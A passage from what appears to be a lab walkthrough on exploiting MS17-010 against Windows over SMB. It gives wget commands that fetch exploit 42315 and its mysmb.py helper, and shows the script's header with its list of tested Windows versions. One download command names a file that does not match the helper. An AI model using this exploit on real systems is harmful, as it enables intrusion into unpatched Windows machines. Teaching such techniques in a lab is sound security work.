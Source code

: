 We can download this exploit by executing `wget https://www.exploit-db.com/raw/42315 -O 42315.py`, as shown above.

<div id="USERNAME"></div>
{% highlight python linenos %}
#!/usr/bin/python
from impacket import smb, smbconnection
from mysmb import MYSMB
from struct import pack, unpack, unpack_from
import sys
import socket
import time

'''
MS17-010 exploit for Windows 2000 and later by sleepya

EDB Note: mysmb.py can be found here ~ https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin>

Note:
- The exploit should never crash a target (chance should be nearly 0%)
- The exploit use the bug same as eternalromance and eternalsynergy, so named pipe is needed

Tested on:
- Windows 2016 x64
- Windows 10 Pro Build 10240 x64
- Windows 2012 R2 x64
- Windows 8.1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x64
- Windows 2008 SP1 x64
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 2008 SP1 x86
- Windows 2003 SP2 x86
- Windows XP SP3 x86
- Windows 2000 SP4 x86
'''

USERNAME = ''
PASSWORD = ''
{% endhighlight %}

At the top of the exploit script we find some comments which include a link to a script named "mysmb.py". This script is needed for the exploit to work and can also be downloaded with `wget` as shown below. Note that an empty username and password is set using the `USERNAME` and `PASSWORD` variables. Sometimes, these aren't required since the target might be configured to allow [null sessions](https://www.blumira.com/glossary/null-session/).

{% highlight none linenos %}
kali@kali:/tmp/x$ @@wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py@@
[...]
Saving to: ‘mysmb.py’

mysmb.py                     100%[============================================>]  16.28K  --.-KB/s    in 0s      

2021-12-11 10:41:57 (58.1 MB/s) - @@@‘mysmb.py’ saved@@@ [16669/16669]

kali@kali:/tmp/x$
{% endhighlight %}
